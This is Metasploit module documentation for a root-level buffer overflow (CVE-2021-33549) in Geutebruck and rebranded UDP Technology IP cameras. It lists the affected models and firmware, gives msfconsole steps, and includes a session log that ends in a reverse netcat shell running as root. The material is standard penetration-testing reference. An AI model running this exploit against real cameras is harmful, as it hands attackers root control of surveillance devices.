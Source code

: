 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27, firmware version 1.12.13.2 or firmware version 1.12.14.5:
* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:
  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module exploits a buffer overflow (CVE-2021-33549) within the `action` GET parameter of /uapi-cgi/instantrec.cgi.
Successful exploitation will result inremote code execution as the `root` user.

Users can find additional details of this vulnerability on the blogpost page at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps

  1. Start the camera using default configuration
  2. Launch msfconsole
  3. Do: `use exploit/linux/http/geutebruck_instantrec_bof`
  4. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `check` to be sure the target is vulnerable
  7. Do: `exploit`
  8. You should get a shell

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
msf6 > use exploit/linux/http/geutebruck_instantrec_bof
[*] Using configured payload cmd/unix/reverse_netcat_gaping
msf6 exploit(linux/http/geutebruck_instantrec_bof) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf6 exploit(linux/http/geutebruck_instantrec_bof) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf6 exploit(linux/http/geutebruck_instantrec_bof) > exploit

[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Attempting to exploit...
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2021-02-23 13:37:28 +0200
pwd

/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-g3532e87a #1 PREEMPT Tue May 12 18:00:46 KST 2020 armv5tejl GNU/Linux
```
